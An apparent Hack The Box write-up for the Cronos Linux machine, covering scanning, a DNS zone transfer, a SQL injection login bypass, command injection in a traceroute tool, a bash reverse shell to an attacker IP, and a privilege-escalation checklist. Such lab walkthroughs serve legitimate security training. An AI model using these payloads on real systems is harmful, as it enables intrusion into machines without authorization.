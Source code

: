 ```yaml
---
layout: default
title: Cronos
parent: Hack The Box - Linux
nav_order: 1
---
```


# Scanning

---

```bash
┌──(kali㉿kali)-[~/Documents/HTB/linux]
└─$ sudo nmap -Pn -p- -sC -sV -T4 -vv --open 10.129.254.3

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCkOUbDfxsLPWvII72vC7hU4sfLkKVEqyHRpvPWV2+5s2S4kH0rS25C/R+pyGIKHF9LGWTqTChmTbcRJLZE4cJCCOEoIyoeXUZWMYJCqV8crflHiVG7Zx3wdUJ4yb54G6NlS4CQFwChHEH9xHlqsJhkpkYEnmKc+CvMzCbn6CZn9KayOuHPy5NEqTRIHObjIEhbrz2ho8+bKP43fJpWFEx0bAzFFGzU0fMEt8Mj5j71JEpSws4GEgMycq4lQMuw8g6Acf4AqvGC5zqpf2VRID0BDi3gdD1vvX2d67QzHJTPA5wgCk/KzoIAovEwGqjIvWnTzXLL8TilZI6/PV8wPHzn
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKWsTNMJT9n5sJr5U1iP8dcbkBrDMs4yp7RRAvuu10E6FmORRY/qrokZVNagS1SA9mC6eaxkgW6NBgBEggm3kfQ=
|   256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHBIQsAL/XR/HGmUzGZgRJe/1lQvrFWnODXvxQ1Dc+Zx
53/tcp open  domain  syn-ack ttl 63 ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Enumeration

---

## DNS | 53

We are able to get the domain for the DNS server `ns1.cronos.htb`

```bash
┌──(kali㉿kali)-[~/Documents/HTB/linux]
└─$ nslookup
> server 10.129.254.3
Default server: 10.129.254.3
Address: 10.129.254.3#53
> 10.129.254.3
3.254.129.10.in-addr.arpa       name = ns1.cronos.htb.

```

We can also perform a zone transfer using `dig`

```bash
┌──(kali㉿kali)-[~/Documents/HTB/linux]
└─$ dig axfr cronos.htb @10.129.254.3

; <<>> DiG 9.19.17-2~kali1-Kali <<>> axfr cronos.htb @10.129.254.3
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 71 msec
;; SERVER: 10.129.254.3#53(10.129.254.3) (TCP)
;; WHEN: Thu Apr 04 23:40:49 EDT 2024
;; XFR size: 7 records (messages 1, bytes 203)

```

This reveals the additional subdomains `admin` and `www`

Update the host file with these entries

```bash
127.0.0.1       localhost
127.0.1.1       kali


10.129.254.3    cronos.htb admin.cronos.htb ns1.cronos.htb www.cronos.htb

::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

```

## HTTP | 80

Navigating to the `admin.cronos.htb` site we get a login page.

![admin](../../../assets/images/ctfs/hack_the_box/cronos/admin.png)

The login page is able to be bypassed with a SQL injection attack

```bash
' or 1=1-- -
```

![sqli](../../../assets/images/ctfs/hack_the_box/cronos/sqli.png)

This brings us to a `welcome.php` page with a Net Tool

![welcome](../../../assets/images/ctfs/hack_the_box/cronos/welcome.png)

If we chain a command together in the traceroute field we are able to demonstrate code injection by displaying the `www-data` username.

![command](../../../assets/images/ctfs/hack_the_box/cronos/command.png)

# Exploitation

---

We should be able to execute a reverse shell command from the Net Tool text field.

We can generate a oneliner with `https://www.revshells.com/`

```bash
bash -i >& /dev/tcp/10.10.14.27/445 0>&1
```

If we intercept the request in Burp we can send the encoded request and get a reverse shell

![repeater](../../../assets/images/ctfs/hack_the_box/cronos/repeater.png)

![shell](../../../assets/images/ctfs/hack_the_box/cronos/shell.png)

# Post-Exploitation

---

- [ ] Upgrade to TTY Shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z
stty size
stty raw -echo
fg
stty rows <first_value>
stty cols <second_value>
export TERM=xterm-256color
```

- [ ] sudo -l
- [ ] enumerate users
- [ ] SUID/GUID

```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null
```

- [ ] enumerate process running with root privileges

```bash
ps -aux | grep -i 'root'
```

- [ ] enumerate network services

```bash
netstat -antup (ss -tunlp)
```

- [ ] check for extended capabilities

```bash
getcap -r / 2>/dev/null
```

- [ ] test discovered credentials against all users
- [ ] attempt hydra ssh password crack for discovered users
- [ ] check _/opt_, _/tmp_, _/var/tmp_, _/etc_, and _/dev/shm_
- [ ] Check if /etc/passwd is writeable
- [ ] Check for aliases (e.g. root)

```bash
compgen -a
```
